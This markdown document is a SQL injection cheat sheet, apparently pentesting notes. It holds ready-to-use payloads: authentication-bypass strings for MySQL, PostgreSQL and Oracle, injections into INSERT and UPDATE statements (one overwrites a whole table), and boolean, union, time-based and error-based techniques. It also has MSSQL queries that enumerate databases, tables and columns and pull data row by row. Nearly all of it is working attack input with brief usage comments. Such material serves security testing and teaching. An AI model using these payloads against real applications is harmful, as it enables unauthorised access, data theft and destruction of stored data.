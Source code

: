 # SQL injection

## Login bypass

### MySQL

```
' or 1=1;#
' or 1=1 LIMIT 1;#
```

### PostgreSQL

```
' or 1=1;--
' or 1=1;/*
' or 1=1 LIMIT 1;--
```

### Oracle

```
' or 1=1--
' or 1=1 LIMIT 1--
```

## Injection types

### SELECT

```
SELECT * FROM accounts WHERE user = 'xxx' AND pass = 'yyy'

xxx' OR 1=1;--            #hides the condition on pass field behind a comment
xxx' OR 1=1 LIMIT 1;--    #hides the extra quote with a comment and limits the results to 1 match (can avoid simple SQLi detections)
```

### INSERT

```
INSERT INTO accounts (user, pass, info) VALUES ('xxx', 'yyy', 'zzz');

xxx');<commands>;--    #close the open sets of quotes and brackets, hide the duplicates behind inline comment
```

### UPDATE

```
UPDATE accounts SET info='xxx' WHERE user = 'yyy';

xxx';<commands>;--    #DANGEROUS! Hides the WHERE clause, all info fields in table will be set to "xxx"
yyy';<commands>;--    #update statement completes normally, then the injected commands will be executed
```

## Techniques

### Boolean based

Execute a query containing a valid parameter (such as an item ID) and concatenate to the instruction a comparison statement that will always be true or false.

```
<param>' and 1=1;    #returns the item matching <param>
<param>' and 1=0;    #returns nothing
```

If the first statement returns the expected value and the second statement returns nothing then the field or parameter are vulnerable

### Union based

1. Find the number of columns: `' or 1=1 order by <col number>; --` increase the number of columns until you get an error. Pay also attention to how the output is ordered, this allows you to match a column number to its output field.
2. Join data: `' or 1=1 union all select <fields> from <table>; --` since the UNION operation requires that both tables have the same column number, add NULL values for the missing columns in the select if the operation fails.

### Time based

Execute a query that results in a boolean statement (true/false). Use a time delay command to stop execution if the result is True. Useful to display boolean values since error based data disclosure doesn't work with them.

```
');if (IS_MEMBER ('db_owner') = 0) WAITFOR DELAY '0:0:5';--
```

This technique can also be used to verity the existence of an SQL injection vulnerability in the same way as the Boolean attack. If the application freezes for the given amount of time after executing the query then the field or parameter are vulnerable

```
<value>'; WAITFOR DELAY '0:0:5'; --
```

### Error based

If the field you're injecting is not used to display data it is possible to make the database print data by causing a cast error i.e. casting strings to integers. This allows you to read one value in a table at time, to print more values filter by row number.

```
'); select CAST(@@version as int);--
```

#### Print database list

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM master..sysdatabases) AS foo WHERE rownumber = <row>;--
```

#### Print tables in database

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM <db>..sysobjects WHERE xtype = 'U') AS foo WHERE rownumber = <row>;--
```

#### Enumerate columns

```
');SELECT CAST (foo.name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY archive..syscolumns.name ASC) AS rownumber,<db>..syscolumns.name AS name FROM <db>..syscolumns, <db>..sysobjects WHERE <db>..syscolumns.id=<db>..sysobjects.id AND <db>..sysobjects.name='<table>') AS foo WHERE rownumber = <row>;--
```

#### Select data from column in nth row

Insert the columns you need to read in the inner select, in this way it wil be possible to select by row number and read the content of the column one row at time.

```
');SELECT CAST (foo.col1 AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY id ASC) AS rownumber,<db>..<table>.<column> AS col1 FROM <db>..<table>) AS foo WHERE rownumber = <nth>;--
```
